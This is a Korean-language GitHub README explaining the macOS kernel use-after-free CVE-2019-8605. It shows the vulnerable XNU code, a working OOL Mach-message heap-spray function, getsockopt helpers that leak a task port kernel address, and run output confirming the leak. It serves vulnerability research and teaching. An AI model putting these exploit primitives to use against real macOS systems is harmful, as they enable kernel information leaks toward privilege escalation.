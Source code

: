 # dangling_kptr_reuse (CVE-2019-8605)
## 환경
macOS 10.14.1 x86_64 ([net.siguza.hsp4.kext](https://github.com/Siguza/hsp4/tree/master) 필요)

## 설명 및 개념 증명
CVE-2019-8605 취약점에 대해 간략히 소개하자면,<br>
ip6_freepcbopts 함수를 통해 inp->in6p_outputopts가 해제되지만,<br>
NULL로 설정되지 않아 여전히 해제된 메모리 영역을 가리키고 있어 dangling 포인터가 됩니다.
```c
void in6_pcbdetach(struct inpcb *inp) {
    // ...
    if (!(so->so_flags & SOF_PCBCLEARING)) {
        struct ip_moptions *imo;
        struct ip6_moptions *im6o;

        inp->inp_vflag = 0;
        if (inp->in6p_options != NULL) {
            m_freem(inp->in6p_options);
            inp->in6p_options = NULL;   // <- 올바르게 NULL 처리 (GOOD)
        }
        ip6_freepcbopts(inp->in6p_outputopts);    // <- 해제만 함, NULL 처리X (BAD)
        // 매핑된 주소의 경우 IPv4 관련 리소스 해제
        ROUTE_RELEASE(&inp->in6p_route);
        if (inp->inp_options != NULL) {
            (void)m_free(inp->inp_options);        // <- 올바르게 NULL 처리, (GOOD)
            inp->inp_options = NULL;
        }
        // ...
    }
}
```
<br>
OOL 메시지는 XNU의 프로세스 간 통신(IPC) 메커니즘에 중요하게 쓰이기도 하며,

메시지를 수신하기 전까지 계속 커널 공간에 남아두게 만들 수 있는 특징이 있습니다.

이러한 OOL 메시지를 통해서 ipc_port 구조체의 커널 주소를 inp->in6p_outputopts에 할당하게끔 힙 스프레이를 수행합니다.

XNU에서의 커널 할당은 존(zone)이라는 일련의 영역을 사용합니다. 이러한 존은 특정 크기나 유형의 객체만을 포함하는 힙 메모리의 구역입니다. 예를 들어, kalloc.32 존은 크기가 32바이트 이하인 객체들을 포함하며, dangling되는 구조체 ip6_pktopts의 크기는 192이기에, kalloc.192라는 존에 속합니다.
따라서 아래 함수로 힙스프레이할 때, count 매개변수는 `192/sizeof(uint64_t)` 여야 합니다.
```c
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    if (err != KERN_SUCCESS) {
        printf("[-] failed to allocate port\n");
        return 0;
    }

    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    
    msg->body.msgh_descriptor_count = 1;
    
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    
    if (err != KERN_SUCCESS) {
        printf("[-] failed to send message: %s\n", mach_error_string(err));
        return MACH_PORT_NULL;
    }
    
    return q;
}
```

힙 스프레이가 수행되면 커널에서 내부적으로 
```c
mach_msg_overwrite_trap 
-> ipc_kmsg_copyin 
-> ipc_kmsg_copyin_body 
-> ipc_kmsg_copyin_ool_ports_descriptor 
-> ipc_object_copyin 
-> ipc_right_lookup_write 
-> ipc_entry_lookup
```
함수가 순차적으로 호출됩니다.

여기서 `ipc_entry_lookup` 함수에 의해 Task Port의 커널 모드 주소로 변환해주기 때문에 아래와 같이 192바이트의 task port들이 스프레이됩니다.

```c
ipc_entry_t
ipc_entry_lookup(
 ipc_space_t space,
 mach_port_name_t name)
{
 mach_port_index_t index;
 ipc_entry_t entry;
 index = MACH_PORT_INDEX(name);
 if (index < space->is_table_size) {
 entry = &space->is_table[index];
 ...
 }
 return entry;
}
```
- 스프레이된 task port 커널 주소들
```
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
```

댕글링되는 192바이트의 커널 구조체는 아래와 같으며, 
```c
struct ip6_pktopts {
    struct mbuf         *ip6po_m;
    int                  ip6po_hlim;
    **struct in6_pktinfo  *ip6po_pktinfo;**
    struct ip6po_nhinfo  ip6po_nhinfo;
    struct ip6_hbh      *ip6po_hbh;
    struct ip6_dest     *ip6po_dest1;
    struct ip6po_rhinfo  ip6po_rhinfo;
    struct ip6_dest     *ip6po_dest2;
    **int                  ip6po_tclass;**
    **int                  ip6po_minmtu;**
    **int                  ip6po_prefer_tempaddr;**
    int                  ip6po_flags;
};
```
이제 사용자 환경에서 `ip6po_minmtu, ip6po_prefer_tempaddr` 필드를 읽어옴으로써 task port leak이 가능합니다.
```c
int get_minmtu(int sock, int *minmtu) {
    socklen_t size = sizeof(*minmtu);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_USE_MIN_MTU, minmtu, &size);
}

int get_prefertempaddr(int sock, int *prefertempaddr) {
    socklen_t size = sizeof(*prefertempaddr);
    return getsockopt(sock, IPPROTO_IPV6, IPV6_PREFER_TEMPADDR, prefertempaddr, &size);
}
```

이렇게 dangling되는 커널 포인터를 재사용하여 leak시키는 방법에 대해 알아보았습니다.

이 레포지토리는 dangling 커널 포인터가 <b>실제로 재사용하는지</b>에 대해 알아봅니다.<br>
Siguza 개발자분의 hsp4 커널 확장을 사용하면, 별도의 취약점없이 커널 읽기/쓰기가 가능합니다.

socket 파일 디스크립터에서부터 할당된 192바이트의 `ip6_pktopts` 구조체 커널 주소를 가져올 수 있으며,<br>
ool ports 또한 `ikmq_base`, `ikm_header` 필드에 접근함으로써 할당된 192바이트의 `mach_msg_ool_ports_descriptor_t`의 `address`를 가져올 수 있습니다.

여기서 서로 address가 일치하면 dangling 포인터가 재사용되었다는 것을 의미합니다.






```
ret: 0x0, hsp4: 0xb03
kext_name: com.apple.kec.corecrypto
kext_addr_slid: 0xffffff7f890c7000
get_kbase ret: 0, kbase: 0xffffff8008200000, kslide: 0x8000000
[*] sock_fd: 3
[*] obtained dangling_kptr from socket_fd, 0xffffff80141cf040
[*] port_kaddr: 0xffffff801a1232a0
[*] ikmq_base: 0xffffff8019b96a00
[*] DANGLING KPTR REUSED!!!!!!
=============================
[0xffffff80141cf040+0x000] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x010] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x020] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x030] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x040] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x050] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x060] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x070] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x080] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x090] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0a0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
[0xffffff80141cf040+0x0b0] 50 F1 68 1B 80 FF FF FF  50 F1 68 1B 80 FF FF FF  |  P.h.....P.h.....
=============================
[*] our task port: 0xffffff801b68f150
```